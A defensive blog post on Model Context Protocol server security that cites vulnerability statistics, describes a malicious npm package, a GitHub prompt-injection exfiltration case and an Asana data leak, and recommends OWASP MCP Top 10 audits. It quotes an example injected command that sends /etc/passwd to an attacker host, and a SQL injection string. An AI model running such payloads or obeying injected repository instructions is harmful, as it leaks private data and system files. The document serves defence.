

43% of Your MCP Servers Have a Command-Injection Vulnerability. Now What?

TL;DR
- 43% of tested MCP servers have command-injection vulnerabilities — the average OWASP security score is 34 out of 100
- Three documented breaches at Postmark, GitHub, and Asana prove this isn’t theoretical
- Chaining just 10 MCP plugins creates a 92% probability of exploitation
- The OWASP MCP Top 10 gives you a framework to start auditing today
You deployed MCP to make your AI agents useful. You probably didn’t audit the servers they’re calling.
Equixly tested the most popular MCP server implementations and found that 43% have command-injection vulnerabilities. The average OWASP security score across those servers? 34 out of 100. And Adversa AI scanned 539 servers and found that 38% completely lack authentication.
This isn’t an edge case. It’s the default state of MCP security right now.
MCP is the reason your AI agents can actually do things
Before MCP, every AI integration was a custom, brittle point-to-point connection. You wanted your agent to query a database? Write a custom connector. Send an email? Another connector. Access a code repo? Yet another one.
MCP — the Model Context Protocol — standardized that interface. One protocol, hundreds of tools. Your agent can read production databases, send emails, deploy code, and update CRMs through a single, open standard.
That’s why adoption is exploding: 97 million monthly SDK downloads, 16,000+ active servers, and the protocol was donated to the Linux Foundation in December 2025.
Companies using MCP are shipping AI workflows in days that used to take months of custom API integration. The alternative — building and maintaining custom connectors for every tool — doesn’t scale and creates its own security burden.
But here’s the tension: the same power that makes MCP valuable — agents autonomously calling tools on your infrastructure — is exactly what makes it dangerous when unsecured.
And the security picture is grim. Beyond the 43% command-injection rate and 38% lacking authentication, Pynt analyzed 281 MCP servers and found that chaining just 10 plugins creates a 92% probability of exploitation. Each tool call expands the attack surface for the next one. In the first 60 days of widespread MCP deployment, researchers filed 30+ CVEs — including a CVSS 9.8 remote code execution.
This isn’t a reason to avoid MCP. It’s a reason to audit it the way you’d audit any infrastructure that touches production data.
The attack surface for MCP isn’t theoretical. It’s being mapped faster than defenses are being built.
— Clarke Bishop
This isn’t theoretical — it already happened
Three documented breaches demonstrate what happens when MCP security is an afterthought. Each exploited a different failure mode.
Postmark: the supply chain attack
In September 2025, a malicious npm package called “postmark-mcp” appeared on the npm registry. It mimicked the official Postmark Labs library — same name pattern, similar description. But version 1.0.16 had a twist: it silently BCC’d every outgoing email to the attacker’s personal address.
1,643 teams installed it before anyone noticed. Every email those teams sent through the compromised server — customer communications, invoices, password resets — was copied to an attacker.
GitHub: the prompt injection
GitHub’s MCP integration was exploited via prompt injection. An attacker placed malicious instructions inside a repository’s content.
When a developer’s AI agent accessed that repo through MCP, the injected prompt triggered the agent to exfiltrate data from other private repositories accessible via the same personal access token.
The root cause: broad PAT tokens with no per-repo scope boundaries in MCP tool permissions. One compromised repo exposed every repo the token could access.
Asana: the cross-org data leak
Asana’s MCP feature had a tenant isolation flaw. Agents could access data from organizations they weren’t authorized to see. Roughly 1,000 customers were affected before the issue was patched in June 2025.
Three breaches. Three different attack vectors — supply chain, prompt injection, tenant isolation. There’s no single fix that addresses all of them. You need a framework.
Command injection is SQL injection’s older, meaner cousin
If you’ve been building software for more than a decade, you lived through the SQL injection era. Command injection is the same class of flaw — applied to the operating system instead of the database.
SQL injection: An attacker puts '; DROP TABLE users; -- into a form field. Your app concatenates it into a query. The database executes it.
Command injection: An MCP tool takes input — a filename, a URL, a search term — and passes it to a shell command. An attacker, or a prompt-injected agent, puts ; curl attacker.com/exfil?data=$(cat /etc/passwd) into that input. Your server executes it.
Same principle. Different blast radius.
Command injection is so common in MCP servers (43%) because MCP tools frequently shell out to system utilities — git, curl, docker, file converters. The tool is often a thin wrapper around a command.
Many MCP servers are written by ML engineers and hobbyists, not security engineers. Input sanitization is an afterthought. The OWASP score of 34/100 reflects this — basic hygiene like parameterized commands, input validation, and sandboxing is simply missing.
Here’s what makes it worse in the MCP context: with SQL injection, a human types the malicious input. With MCP, a prompt-injected agent generates it autonomously — at machine speed, across multiple tools.
Chaining compounds the risk. A command-injection flaw in one tool can be used to pivot to every other tool on the same server.
Your API playbook won’t save you here
Most teams deploying MCP treat it like they treated REST APIs: add authentication, rate-limit, ship. That approach fails because MCP is not an API.
An API waits for a human to initiate every request. An MCP server gives an AI agent the ability to decide what to call, when, and in what order — autonomously. The 92% exploit probability when chaining 10 plugins exists precisely because teams apply API security thinking to an agent security problem.
Three OWASP MCP categories have no API equivalent at all: Tool Poisoning (MCP03), Intent Flow Subversion (MCP06), and Shadow MCP Servers (MCP09). If your security review starts and ends with “add auth and rate limiting,” you’re solving yesterday’s problem.
MCP isn’t an API. It allows an autonomous agent access to your infrastructure. The threat model is different because the actor is different.
— Clarke Bishop
The framework exists — most companies haven’t adopted it
OWASP published a dedicated MCP Top 10 framework — the first standardized security framework for Model Context Protocol implementations. It covers everything from token mismanagement to shadow servers. Microsoft published Azure-specific guidance mapping it to their cloud platform.
The framework exists. Most companies deploying MCP haven’t adopted it. Here’s where to start:
1. Audit your supply chain (MCP04). Verify every MCP server package against official sources. Pin versions. The Postmark breach happened because someone installed a package that looked right.
2. Scope tool permissions (MCP02, MCP07). Least-privilege per tool, not per server. The GitHub breach happened because a single PAT token gave the agent access to every repo. Scope access to exactly what each tool needs — nothing more.
3. Validate inputs at every tool boundary (MCP05). Command injection is the #1 finding because it’s the easiest to miss. If any tool passes agent-supplied input to a shell command, subprocess, or exec call — you likely have this flaw. Use parameterized commands.
4. Monitor intent flow (MCP06, MCP08). Log what agents actually do, not just what they’re asked to do. Detect prompt injection attempts. If an agent starts accessing resources it wasn’t directed to — that’s a signal.
5. Discover shadow servers (MCP09). If your developers can npm install an MCP server without review, you have servers you don’t know about. Inventory everything. Unknown servers are unaudited servers.
Start with a 30-minute exercise: inventory every MCP server in your environment, check auth status, and review tool permissions. That single audit surfaces 80% of the risk.
The window is months, not years
MCP is following the same trajectory as cloud security. Rapid adoption. Security retrofitted after breaches. The S3 bucket exposure era taught us what happens when infrastructure goes mainstream faster than security practices can keep up.
We’ve been here before. Every major infrastructure shift — cloud, containers, APIs — went through the same cycle: explosive adoption, high-profile breaches, then an industry-wide scramble to retrofit security.
MCP is in the explosive adoption phase right now. The breaches have started. The scramble hasn’t. And with 97 million monthly SDK downloads and 30+ CVEs in 60 days, the window to get ahead of it is narrowing fast.
The companies that audit now become the case studies everyone else quotes. The companies that wait become the breach headlines. The OWASP framework gives you a starting point. The 30-minute inventory gives you a first step. The question is whether you take it before or after something goes wrong.
Deploying MCP and haven’t audited your servers yet? Let’s talk about getting ahead of this before it becomes a board-level conversation.